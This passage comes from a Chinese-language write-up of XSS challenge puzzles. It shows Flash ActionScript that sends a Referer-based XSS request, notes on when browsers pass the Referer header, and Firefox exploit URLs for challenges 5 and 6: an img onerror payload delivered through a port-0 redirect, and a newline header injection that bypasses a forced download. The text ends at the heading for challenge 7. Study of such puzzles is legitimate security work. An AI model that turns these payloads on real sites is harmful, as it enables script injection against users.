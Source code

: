 所以比较通用的办法是通过flash发送请求，AS代码如下：

```js
package {
import flash.display.Sprite;
import flash.net.URLRequest;
import flash.net.navigateToURL;
public class xss_referrer extends Sprite{
  public function xss_referrer() {
   var url:URLRequest = new URLRequest("https://vulnerabledoma.in/xss_referrer");
   navigateToURL(url, "_self");
  }
}
}
```
Ref:http://masatokinugawa.l0.cm/2016/10/referrer-xss-win10.html
另外在找资料也看到一些东西，记录一下

```bash
 # 会传送referer
> https->https
> http->https
 http->http

# 不会传送refer
https->http
```

#### [xss5.php](./xss5.php)

此题目主要是想办法去让浏览器不进行跳转.

翻到p师傅blog曾经对bottle http注入的一段: https://www.leavesongs.com/PENETRATION/bottle-crlf-cve-2016-9964.html

这里我使用的是端口小于80，FF就不会进行跳转

FF exp:
```url
http://xianzhi.aliyun.com/xss5.php?url=http://baidu.com:0/'%3E<img src=1 onerror=alert(document.domain)><a>
```

#### [xss6.php](./xss6.php)

这个是需要绕过文件下载，在第5题中p师傅的文章里面提到了一个点
```
为PHP的header函数一旦遇到\0、\r、\n这三个字符，就会抛出一个错误，此时Location头便不会返回，浏览器也就不会跳转了
```
同理是可以用在文件下载中

ff exp:
```url
http://xianzhi.aliyun.com/xss6.php?url=http://ns1.rootk.pw:8080/xss/wp/6.php&filename=aaa%0a
```
ref: https://twitter.com/mramydnei/status/782324732897075200

#### [xss7.php](./xss7.php)
